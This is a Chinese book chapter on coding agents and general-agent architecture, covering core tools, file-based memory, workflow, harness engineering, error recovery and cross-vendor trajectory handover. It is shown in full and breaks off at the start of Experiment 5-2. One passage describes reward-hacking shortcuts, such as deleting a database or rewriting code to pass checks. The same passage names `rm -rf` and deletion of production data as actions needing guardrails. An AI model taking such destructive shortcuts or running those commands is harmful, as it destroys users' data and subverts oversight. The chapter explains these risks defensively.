




# Coding Agent 与通用 Agent

前面的章节分别深入讨论了上下文工程（第二、三章）和工具设计（第四章）。本章将这些构件组合在一起，回答一个核心问题：**一个能处理任意任务的通用 Agent，它的架构长什么样？**

答案是：**以开放任务为目标的通用 Agent**，其核心是一个 **Coding Agent**（能自主编写、修改和执行代码的 Agent）加上**文件系统**——Agent 用来存储代码、数据、记忆和中间结果的工作空间，类似于程序员在电脑上用文件夹管理项目的方式。从 Manus 到 OpenClaw，成功的开放任务型通用 Agent 都遵循这一范式。

为什么代码生成能担此重任？因为它不只是一个工具，而是一种**元能力**——能在运行时动态创造出新的工具和能力。本章后半部分会完整展开这一概念及其六个应用方向。

代码对 Agent 的价值体现在两个层面。**思考**上，形式化代码让思考高度严谨——“年龄大于 18 且已实名认证”用自然语言描述可能有多种理解，写成代码就毫无歧义。**表达**上，一段能跑通的代码本身就是逻辑自洽的证明，执行结果提供客观的对错标准。

本章先从 Coding Agent 的基础能力和通用 Agent 架构（OpenClaw）讲起，然后展示代码生成在各类场景中的应用——从数学思考、内容创作到系统级的元能力。

## Coding Agent

### Coding 是 Agent 的基础能力

**代码生成不是少数专门化 Agent 的专利，而是每个通用 Agent 都该具备的基础能力**。在当前 SOTA 模型的加持下，具备基本 coding 能力并不需要复杂的架构。

考虑一个典型任务：“整理仓库中所有遗留的 TODO 注释，按优先级分类并生成 issue”。完成这件事需要浏览目录结构（ls/glob）、读取代码（read）、修改文件（edit/write）、运行命令（bash）、查找模式（grep/search）。这五类操作覆盖了几乎所有 Coding Agent 的核心动作。

为了支持这五类操作，一个基础的 Coding Agent 只需配备以下七个核心工具：

1. **Code Interpreter（代码解释器）**：提供隔离的沙盒环境（sandbox，即与主系统隔离的安全运行空间，代码即使在其中运行出错也不会影响宿主机），安全执行 Python 代码
2. **Bash Shell（命令行终端）**：在终端中执行命令，如运行测试用例、处理特殊格式文件
3. **读文件工具**：读取代码、配置、文档、日志等
4. **写文件工具**：创建新文件或完全重写现有文件
5. **编辑文件工具**：对现有文件进行局部修改，是代码维护和迭代的核心操作
6. **搜索文件名工具（Glob）**：通过模式匹配快速定位文件系统中的目标文件，例如用 `**/*.py` 找出项目中所有 Python 文件
7. **搜索文件内容工具（Grep）**：在文件内容中搜索特定的文本模式，例如搜索所有调用了某个函数的代码行

这七个工具构成了一个完整但极简的工具箱，几乎任何 Agent 系统都可以低成本地集成。

注意，这个工具集是 Coding Agent 特有的基础配置，不同于第四章按调用方向和作用性质划分的五类通用工具分类（感知/执行/协作/事件触发/用户沟通）。七个核心工具主要覆盖了感知和执行两类。协作、事件触发、用户沟通这三类需求仍需要其他工具，但它们不是 Coding Agent 的核心。

用一个最简单的任务来看这七个工具是怎么配合的。假设用户说 “帮我把项目里所有 TODO 注释整理成一个清单”：

```text
Agent（思考）：需要找到所有包含 TODO 的代码行。
Agent → Grep("TODO", glob="**/*.py")          # 搜索文件内容
工具返回：
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent（思考）：找到了 3 个 TODO，整理成清单写入文件。
Agent → Write("TODO_LIST.md", content="...")   # 写文件
工具返回：文件已创建

Agent：已整理完毕，共发现 3 个 TODO 项，清单保存在 TODO_LIST.md。
```

整个过程只用了 Grep（搜索内容）和 Write（写文件）两个工具。如果任务更复杂，比如 “统计每个模块的 TODO 数量并画个柱状图”，Agent 还会用 Code Interpreter 执行 Python 代码来做统计和绘图。七个工具虽然简单，组合起来就能完成非常多样化的任务。

读者可能会问，为什么是七个工具，不是六个工具？事实上，只要一个 Bash Shell 工具就足够了。OpenAI Codex 就只提供 Bash Shell 一个工具，用这一个工具完成所有文件读写、查找操作。但其他一些 Agent 仍然保留单独的文件读写工具。本书的七个工具是为了方便读者理解 Coding Agent 所需的基本能力。

为什么每个通用 Agent 都应该具备 coding 能力？因为代码生成不只是写程序，它是一种通用的问题解决手段。遇到数学推理，可以写段代码交给求解器算出精确答案；需要固化业务规则，代码比自然语言描述精确得多；缺少某个工具，可以临时写一个；数据格式变了，动态生成解析逻辑。本章后续会逐一展开这些场景。一个具备基本 coding 能力的 Agent，即使工具箱中只有上述七个简单工具，也能在遇到新需求时动态扩展自己的能力边界。

### 案例：从 Manus 到 OpenClaw——通用 Agent 的 Coding 内核

以 Manus、OpenClaw 为代表的通用 Agent 产品，把 Deep Research（深度调研）、Computer Use（电脑操控）和 Coding（代码生成）三大能力融合在一个系统中。那么，为什么本章开头说 Coding Agent 是其中的核心，而不是另外两者？

因为几乎所有高效的内容生成最终都要落到代码上。PPT、Word 文档本质上是 OOXML（Office Open XML，微软推出的办公文档开放标准）格式的代码。PDF 报告可以通过 Markdown、HTML 或 LaTeX 生成，数据分析和可视化可以由 Python 脚本完成，甚至 GUI 操作中成功的浏览器操作序列也可以被固化为可复用的代码（详见第九章）。Deep Research 的搜索和信息综合可通过代码驱动的 Web 请求和解析实现。Computer Use 虽然通用性更强，但成本、延迟和稳定性远不如直接通过代码或 API 来完成相同操作。代码生成是效率最高、成本最低、可复用性最强的能力基座。


用一个具体的执行流来理解这个架构。假设用户要求 “Help me analyze last quarter's sales data and create a summary report”：

1. **读记忆**：Agent 读取 `MEMORY.md`，发现用户偏好 PDF 格式的报告，数据源是 Google Sheets
2. **调工具**：通过网络搜索模块获取 Google Sheets API 的使用方法，通过代码执行下载数据
3. **写代码**：用 Python 生成数据分析脚本（pandas 聚合、matplotlib 可视化）
4. **生成产物**：将分析结果写入 `report.pdf`，图表写入 `charts/` 目录
5. **更新记忆**：在 `MEMORY.md` 中记录 “User's sales data is in Google Sheets, ID: xxx”，下次无需再问

整个过程中，文件系统是信息流转的枢纽——记忆从文件读取，产物写入文件，经验也保存为文件。

**文件系统作为 Agent 的中枢**。在 OpenClaw 的设计中，文件系统远不止是数据存储——它是 Agent 记忆、知识和能力的中枢。Agent 的长期记忆存储在 `MEMORY.md`（高层级事实和用户偏好）和按日期归档的 Markdown 日志中。选择 Markdown 而非向量数据库的决定看似反直觉，实际上极其有效：用户可以直接打开文件阅读和修改 Agent 的记忆（如果 Agent 记错了某件事，直接删除那一行即可），Markdown 天然保留时间顺序，避免语义检索中的时间混淆，而且可通过 Git 进行版本控制和回滚。

更关键的是，Agent 拥有写文件的能力，这意味着它具备了修改自身外部产物的技术条件。当 Agent 首次执行某个任务并发现了之前不知道的关键信息（例如给某银行打电话时，发现对方要求提供开户行地址才能验证身份），它可以先把发现写入记录。记录何时足以成为可靠知识、指令或程序，仍需结合更多轨迹与结果验证；这是第九章将讨论的持续进化问题。

**适用边界：哪些 Agent 以 Coding 为核心架构**。“Coding Agent 是通用 Agent 的核心” 这一判断主要适用于**以开放任务为目标**的通用 Agent——深度调研、内容生成、数据处理这类任务边界不确定、产物形态多样的场景。在这些场景中，无法预先枚举所有需要的工具，代码生成作为元能力提供了动态扩展能力边界的最经济路径，因此它是架构的核心。而另一类 Agent——例如垂直领域的客服 Agent——任务空间相对封闭，核心架构围绕固定的业务流程、领域工具和对话策略构建，代码在其中更多是工具箱里的一件工具而非架构中枢。但即便在后者，coding 也是重要的基础能力：精确计算、数据处理、规则校验都离不开它。

### Coding Agent 的整体流程


**项目文档化。**

Coding Agent 的工作始于对项目的系统性理解。当 Agent 首次接触一个代码仓库时，首要任务不是马上动手改代码，而是先建立对整个项目的认知框架。就像一位新入职的工程师，第一天不会直接提交代码，而是先熟悉项目结构。Agent 会首先检查项目是否存在文档。

如果关键文档缺失，Agent 不应在盲目状态下开始工作，而应主动承担文档化的责任——通过系统性地阅读代码库，识别主要模块、核心抽象、组件间依赖关系，生成包含架构概览、目录结构、测试运行指南的初始文档。这份文档既为 Agent 后续工作提供蓝图，也为其他开发者提供入门指引。这体现了一个关键原则：知识的显式化是高效协作的前提。

项目文档化如今有了一种 Agent 专用的形态：**项目指令文件**。CLAUDE.md、AGENTS.md、.cursorrules 等文件已成为业界事实标准——它们在每次会话开始时被自动注入上下文，相当于项目级的系统提示词。与面向人类读者的 README 不同，指令文件承载的是面向 Agent 的行为约定：构建与测试命令（“用 `pnpm test` 而不是 `npm test`”）、代码风格（“禁用 any 类型”）、明确的禁区（“不要改动 `migrations/` 目录”）。这与 OpenClaw 的 `SOUL.md`（定义 Agent 的身份与行为规则）、`MEMORY.md`（沉淀跨会话经验）是同一思路在不同层面的应用：SOUL.md 约定 “Agent 是谁”，项目指令文件约定 “在这个项目里该怎么干活”。从第二章上下文工程的角度看，指令文件还是最经济的稳定前缀——内容不随任务变化，天然对 KV Cache 友好；它也是“知识必须存在于代码库本身”原则最直接的落地。

这也正是第二章“对远程工作友好的团队往往也对 AI Agent 友好”那条判断在代码库层面的落点：决策记录在文档里，上下文写在 issue 和 PR 描述里，内部经验沉淀在开发者指南里，Agent 才读得到。由此可以给出一个评估团队“AI-ready”程度的简单指标：**一个远程新人只靠代码仓库和文档，能不能独立开展工作。**

**任务理解与需求澄清。**

对于边界清晰、影响范围有限的简单需求——例如修正一个已知的 bug、调整某个函数的参数——Agent 可直接进入实现阶段。然而，软件开发中的大多数任务并非如此简单。

对于复杂需求，Agent 必须更加谨慎和有条理。复杂性可能源于多个维度：需求本身的模糊性（用户知道想要什么但无法精确表达）、实现路径的多样性（多种技术方案可选，各有权衡）、或影响范围的广泛性（需修改多个模块，可能破坏现有功能）。Agent 应通过探索性调研来澄清边界，必要时主动与用户对话。例如，当用户要求 “优化系统性能” 时，Agent 需要先搞清楚：优化的具体目标是什么（降低响应时间、减少内存占用还是提高吞吐量）、可接受的权衡是什么（是否允许修改接口、是否允许降低用户易用性）、以及当前瓶颈在哪里。在需求模糊的状态下就开始编码，往往导致大量返工。

**编写设计文档。**

设计文档是将抽象需求转化为具体实现计划的桥梁，应回答核心问题：修改哪些模块及原因，采用什么方案及其相对优势，需引入哪些新依赖，预期对系统的影响。编写设计文档本身迫使 Agent 深度思考，在投入大量编码前先在概念层面验证方案可行性。更重要的是，设计文档为人类提供了高效的介入点。审查简洁的设计文档比审查数百行代码容易得多。Agent 完成设计文档后应提交给用户审查，等待批准后再继续。

**代码实现与测试。**

获得设计批准后，Agent 遵循项目代码规范进行实现，复用现有抽象和工具，必要时进行适度重构以保持代码库健康。

实现完成后立即进入测试驱动的质量保障环节——为新增或修改的功能编写测试用例，覆盖正常路径、边界条件和异常情况。编写完测试后执行测试套件。如果测试失败，Agent 不应简单地向用户报告失败，而应分析原因、定位问题、修改代码直到所有测试通过。这个 “测试-修复” 循环可能需要多次迭代，正是这种自我纠错能力将 Coding Agent 从代码生成器提升为可靠的工程助手。反过来说，Coding Agent 最常见的偷懒方式，就是跳过这一环节——写完代码不跑测试就报告“任务完成”。把“测试通过”而非“代码写完”定义为完成标准，正是 Loop 工程“由验证判定何时可以停”原则在编码场景的落地。

即使所有测试通过，Agent 的工作也还没结束。接下来是代码审查阶段：Agent 对自己生成的代码进行批判性审视——可读性如何，是否有足够注释；是否存在潜在的性能问题或安全漏洞；是否遵循项目的代码风格和最佳实践。这个自我审查可通过阅读代码、运行 lint 工具或调用专门的代码审查子 Agent（Sub-Agent）来实现。如果审查发现问题，应回到修改阶段完善，而不是将有缺陷的代码交付给用户。

**文档同步与交付。**

如果代码修改涉及架构层面的变化——例如引入新模块、改变模块间依赖关系、修改核心抽象语义——Agent 需相应更新架构文档。过时的文档比没有文档更糟糕，因为它会误导未来的开发者。通过在每次重要修改后自动更新文档，Agent 帮助维护了项目知识库的完整性和时效性。

这套流程体现了软件工程的核心原则：计划先于行动，验证贯穿始终，文档与代码共同演化。

需要注意，上面介绍的是**推荐的工程化流程**。现实中的 Coding Agent（如 Claude Code、Codex）会按需裁剪这套流程，简单 bug 修复任务会跳过生成设计文档，只有当任务复杂、影响面大时才会完整走完各阶段。

不同模型裁剪这套流程的方式并不相同。有些 Coding 模型会在第一次修改前广泛阅读目录、实现、调用方和测试；另一些则会读少数最可能相关的文件，马上提交一个补丁，再把编译与测试反馈当作调查的一部分。更换 Harness 后，这种“何时停止收集信息、开始行动”的阈值仍可能随模型保持不变；而在同一个 Harness 中切换模型时，阈值也可能随之改变。因此，它首先是**模型学到的行为策略**，而不只是 Coding 产品的界面风格。Harness 的提示词、工具和预算仍能放大或抑制它，但不必是它的来源。第七章将在固定 Harness 中衡量这一差异，第八章再从后训练角度解释它可能如何写入参数。

### Harness 工程在 Coding Agent 中的实践

第一章引入了 Harness 工程的概念和 **Agent = Model + Harness** 的公式。这里的 Harness 包含了核心公式中的上下文和工具，以及约束、验证和纠正机制——五者共同构成了第一章定义的 Harness。Coding Agent 可能是最能受益于 Harness 工程的领域——代码编写是所有 Agent 任务中**可验证性最高**的一类，约束、验证和纠正都有现成的基础设施可以依托。本节聚焦于 Coding Agent 场景下的具体实践。

能不能稳定运行，往往不取决于用了多强的模型，而取决于围绕 Agent 搭建的基础设施有多扎实。第一章将 Harness 分为两个层面——**上下文与工具**（让 Agent 能做事）和**约束、验证与纠正**（让 Agent 不做错事）。在 Coding Agent 这个场景下，它们落地为具体的工程组件：

- **验收基线**：什么算做完了——测试套件、CI 管道（持续集成流水线，代码提交后自动运行的一系列检查）、代码审查标准
- **执行边界**：Agent 能碰什么不能碰什么——模块边界、依赖规则、权限控制
- **反馈信号**：自动化的对错判断——Linter（代码规范检查工具，能自动发现格式错误和潜在问题）输出、测试结果、类型检查错误
- **回退手段**：出了问题怎么恢复——Git 版本控制、沙盒隔离、快照回滚

**Coding Agent 为什么特别适合 Harness 工程。**

可以用任务清晰度和验证自动化程度两个维度，将任务分成四种状态。目标明确且结果可自动验证，是最适合 Agent 发挥的区域；目标清楚但验收还得靠人盯，吞吐量的天花板就是人的审查速度；有自动化反馈但目标模糊，系统会高效地往错误方向跑；两者都缺，Agent 基本派不上用场。表5-1 展示了这四种状态，Harness 的目标就是把尽可能多的任务推向“目标明确 + 验证自动化”这个象限。

表5-1 任务清晰度与验证自动化程度的四象限

| | 结果可自动验证 | 结果需人工验证 |
|----------|----------------------------------------------|---------------------------------------|
| **目标明确** | 最佳区域：修复有测试用例的 bug | 吞吐量受限：代码重构需人工审查 |
| **目标模糊** | 高效地跑偏：用 linter 优化“代码质量” | 难以启动：“让 UI 更好看” |

代码编写天然处于这个象限的核心——测试套件提供明确的验收标准，Linter 和类型检查器提供即时的自动化验证，Git 提供完美的版本控制和回退能力。这就解释了为什么 Coding Agent 是当前所有 Agent 类型中成熟度最高的：不是因为代码生成模型特别强，而是因为软件工程几十年积累的基础设施天然构成了一套强大的 Harness。

**业界实践。**

以下三个案例的 Harness 实践印证了上述原则：

- **大规模代码迁移案例**（来自一家大型科技公司公开分享的大规模代码迁移实践）：关键不在模型强，而在 Harness 做对了三件事——知识必须存在于代码库本身（Agent 看不到的等于不存在）、约束编码进 Linter 和 CI 而非写在文档里、验证和纠正全链路自动化。
- **LangChain**：仅通过优化 Harness（系统提示词、工具中间件、自验证循环）就显著提升了基准任务表现。尤其值得一提的是“用 Agent 分析失败轨迹来改进 Harness”的方法论，使 Harness 工程从人工经验驱动转向数据驱动。
- **Anthropic**：将长任务拆分为两个角色——初始化 Agent 负责把大任务分解为任务清单，执行 Agent 负责逐步推进并把中间成果（如已完成的代码文件、更新后的任务清单等）留给下一轮继续使用。这种分工解决了长时运行 Agent“一次想做太多”或“过早声称完成”的问题。

**从 Coding Agent 到通用 Harness 设计原则。**

Coding Agent 的 Harness 实践为所有 Agent 系统提供了可迁移的设计原则：

1. **约束优先于指导**：能用代码强制的规则就不要用文档建议。Linter 规则、类型约束、CI 检查的价值远超系统提示词中“请遵循...”式的指导——前者是“做不了”，后者只是“建议别做”。
2. **验证要自动化**：人工审查是不可扩展的瓶颈。测试套件、代码质量检查、行为监控——这些基础设施的投入回报率远高于增加人力。
3. **反馈越快越好，越结构化越好**：错误信息越详细、越接近错误发生的时刻，Agent 的纠正效率越高。第二章的 Agent 状态栏技术（详细错误信息、工具调用计数器）正是这一原则的体现。
4. **回退要可靠**：Agent 在安全网内操作才能大胆试错。Git 分支、沙盒环境、快照机制确保任何错误都可逆。

**约束的另一层目的：防止过程性错误。** 验收基线管的是结果对不对，执行边界管的是**过程**——即使结果正确，用错误的方法达成也不行。修复数据库故障时直接把库删了重建，“修复”确实生效，但数据没了；修复编译错误时把代码全删重写，编译确实通过，但实现没了。这类破坏性捷径总是存在：即使把限制写进最终评估指标，Agent 也常能找到绕过去的办法——这正是第八章讨论的 reward hacking 在 Agent 任务中的日常形态。因此生产级 Harness 要对 `rm -rf`、删除生产数据、覆盖未读文件这类危险动作设置专门的检查与审批（本章安全一节的语义解析、第四章的 Sidecar 复核），约束的是**动作**而非仅仅是结果。第八章的 RLVP（验证路径惩罚，“奖励结果、惩罚路径”）从训练侧回答同一个问题：在最终结果奖励之外，对过程中可验证的违规动作施加惩罚，把“不用破坏性手段”内化为模型的工程常识。对已有模型，Harness 护栏是外部约束；对可训练模型，过程惩罚是内部内化——两者目标一致。

**工具编排：故障边界控制**。成熟的 Coding Agent 支持并行工具调用，Harness 视角下的独特问题是**故障如何传播**：一个工具失败时，哪些调用应当中止、哪些应当继续？原则是故障只在同一批并行调用内传播，不上升到父级操作——比如同时读取三个文件，其中一个找不到，应该只报告这一个失败，而不是把另外两个也取消掉，更不是让整个任务中止。这种精细的故障边界控制避免了“一个命令失败导致整个任务中止”的脆弱模式。并行调用、流式解析与级联中止的具体机制见本章“实现技巧”一节。

### 故障与错误恢复

上一节给出了 Harness 工程的原则与组件，本节深入其中最能拉开工程差距的一块——**故障与错误恢复**。第一章的消融实验已经展示过问题的严重性：仅仅缺失一条工具结果反馈，就足以让 Agent 陷入无限循环；而真实生产环境中的故障远比实验里多样。本节系统地回答三个问题：生产级 Harness 会遇到哪些故障？如何检测与恢复？又在什么时候必须终止[^ch5-3]？

[^ch5-3]: 本节的故障分类与机制分析基于对 Claude Code 等生产级 Agent 实现的源码研究。具体实现随版本快速演进，本节只提炼其中稳定的工程原则。

**故障分类学：四层故障。** 系统应对的第一步是分类。按故障发生的位置，可以分为四层：

- **API 层**：限流（HTTP 429）、服务过载、请求超时、连接中断、输出触顶被截断。这类故障与任务内容无关，是基础设施的噪声。
- **工具层**：幻觉调用（调用了不存在的工具）、参数畸形（不符合工具的输入约束）、执行抛异常，以及最危险的一种——工具反复返回同一个错误，而模型不加改变地反复重试。
- **上下文层**：上下文窗口溢出、压缩失败、轨迹结构损坏（如工具调用缺少配对的结果消息）。
- **控制流层**：死循环（反复执行相同操作却毫无进展）与死亡螺旋（错误触发的恢复逻辑自身又调用 LLM、再次出错、连锁反应）。

**检测：先分类，再计数。** 捕获故障后的第一个判断不是“要不要重试”，而是“值不值得重试”。可重试的错误（限流、过载、网络抖动）重试才有意义；不可重试的错误（参数不合法、权限不足、工具不存在）原样重试多少次都是同样的结果，必须改变输入或策略。生产级 Harness 维护一张错误到恢复策略的映射表，而不是笼统地“出错就重试”。

单次错误之外，还要检测**模式**。一是重复调用指纹：对“工具名 + 参数”计算指纹，相同指纹反复出现就是无进展循环的明确信号——第一章消融实验中 Agent 反复调用同一工具，正是这种模式。二是连续失败计数：每条恢复路径维护独立的计数器，为后文的熔断提供依据。

还有一类故障不表现为错误，需要专门的**活性与完整性监控**。流式连接最危险的失败模式不是断开（这会立即报错），而是静默卡死——连接建立成功但数据流停止，像水管通着但不出水；SDK 的超时机制往往只覆盖初始连接而非传输过程，因此生产级 Agent 需要独立的空闲看门狗（watchdog timer，超过设定时间没有新输出就判定为卡死），超时后主动杀死挂起的流并触发重试。可推广为一条原则：**每个长连接都需要活性信号，而非仅依赖连接超时**。完整性监控则针对轨迹结构：发现工具调用缺少配对的结果消息时，系统会在注入上下文前自动修复配对关系，而不是把结构异常抛给模型或用户。一个值得注意的工程细节是，部分生产级 Agent 同时运行产品模式和训练数据收集模式——产品模式下可以用占位符修补缺失的消息，训练模式下则拒绝修复，因为合成占位符会污染训练数据。“产品模式宽容、训练模式严格”的双重标准，体现了 Harness 与模型训练的深度耦合。

**恢复：分级升级，逐级透明。** 恢复手段按对用户透明的程度分级，能用低级别解决就不升级：

1. **静默重试**。可重试错误的默认动作。两个细节决定成败：指数退避叠加随机抖动，避免大量客户端同步重试造成二次拥塞，并尊重服务端返回的等待时长提示；区分前台与后台调用——主循环的请求失败要重试，标题生成、输入建议这类辅助性后台调用失败则直接放弃，否则后台重试会挤占主链路的配额，形成“重试放大”。
2. **降级与接续**。重试无效时，改变请求本身再试。以输出触顶（生成到一半被长度限制截断）为例：先静默提升输出上限重发，仍不够再在消息末尾追加元指令、让模型从断点接续生成。主模型持续过载时降级到备用模型（需先剥离旧模型私有的格式块，否则新模型无法解析历史消息）；高成本模式被限流时暂时回落到标准模式。
3. **暴露给用户**。所有自动手段用尽后才呈现错误，并附上已经尝试过的恢复动作。

工具层错误走另一条路：**不终止会话，把错误变成模型的输入**。幻觉调用会收到“工具不存在”的结构化错误结果；参数校验失败会收到附带输入约束提示的错误；畸形参数（本该是对象却输出了字符串）在执行前先经过程序化修复。这些错误以普通工具结果的身份进入上下文，由模型在下一轮自行纠正——这正是前文“反馈越结构化越好”原则的应用：喂回的错误越具体，模型自我纠正的成功率越高。

这一节的核心原则是：**错误处理的边界不是单次请求，而是整个恢复循环**。在确认无法恢复之前，中间错误不应暴露给消费者——无论是用户还是订阅事件的下游系统：恢复期间扣留错误消息，恢复成功则消费者毫无感知，所有恢复手段均失败后才统一呈现错误。这正是第一章“在确认无法恢复之前，不暴露中间态”这一纠正原则的工程化。

**接管：把没跑完的轨迹交给另一家模型。** 主模型持续不可用时，需要换一家把这条轨迹接着跑完。真正的障碍不是接口地址不同，而是轨迹里有一部分东西只属于原厂商。工具调用与工具结果各家结构不同但语义一致，重新渲染即可；难办的是模型的思考。思考通常由两部分构成，一部分是可读的文字，另一部分是厂商附在其上的凭证，用来证明这段思考确实出自它自己。文字换一家模型仍然读得懂，凭证换一家就失效——**跨厂商接管能带走的是文字，带不走的是凭证**。

各家对凭证的要求并不一致。宽松的一端根本不做校验，严格的一端则拒绝一切不由自己签发的凭证；凭证也未必附在思考上，还可能附在工具调用上。于是“把思考删干净就安全了”这条看似稳妥的策略，在某些厂商那里反而通不过。接管方案只能按最严格的一端来设计，并为满足不了要求的情形准备退路：把历史工具调用改写成文字叙述，模型不再把它当作真正调用过的工具，但至少能接着往下跑。

由此可以得到一条设计原则：轨迹不该按任何一家的接口格式存储，而应保存为一份中立格式。每段思考拆成可移植的文字与不可移植的凭证两部分，工具调用只记录名称与参数，标识符在渲染成具体请求时按目标厂商重新生成。切换时凭证一律丢弃，文字以普通内容的身份带入，而不是塞回目标厂商放思考的位置。厂商返回的思考摘要本就是为这种场合准备的可移植副本，保留即可，不必另外调用模型再压缩一遍。中立轨迹的价值也不限于故障切换：第七章的评估重放、第八章的训练样本构造、第九章的经验提取，依赖的都是同一份产物。

> **实验 5-1 ★★★：跨厂商的轨迹接管**
>
> **实验目标**：验证一份中立的轨迹格式能否让跑到一半的 Agent 轨迹换一家模型接着跑完，并量化“原样直传”与“一刀切剥光”两种做法的代价。
>
> **技术方案**：任务需要多轮工具调用，跑到中途对当前厂商注入连续的限流与过载响应，熔断后切换到另一家继续。轨迹按中立格式保存，思考分为可移植的文字与不可移植的凭证两部分，工具调用只记录名称与参数。三种做法对照：**直传**把原厂商返回的消息原样搬进新厂商的结构；**剥离**删掉全部思考与凭证；**中立**丢弃凭证，把文字或厂商给出的思考摘要以普通内容的身份带入，标识符按目标厂商重新生成，遇到强制要求凭证的接收端则把历史调用改写为文字叙述。选三家线上格式互不相同的厂商，两两切换。
>
> **验收标准**：切换后的首个请求都要留下原始响应，直传的失败必须是厂商真实返回的错误，不得以模拟错误代替。要求中立做法在全部厂商组合上都不出现接口错误，另外两种在哪些组合上失败、报什么错，如实记录。三者对比任务完成率、切换后重复调用同一工具的次数（按“工具名 + 参数”指纹计），以及切换后到完成所需的额外轮数与 token。若中立做法在重复调用上并未优于剥离，同样如实记录。

> **实验 5-2 ★★：输出到一半断掉之后的接续**
>
> **实验目标**：比较“整轮重发”与“以半截输出为前缀续写”两种恢复方式在成本、正确性与副作用上的差异。
>
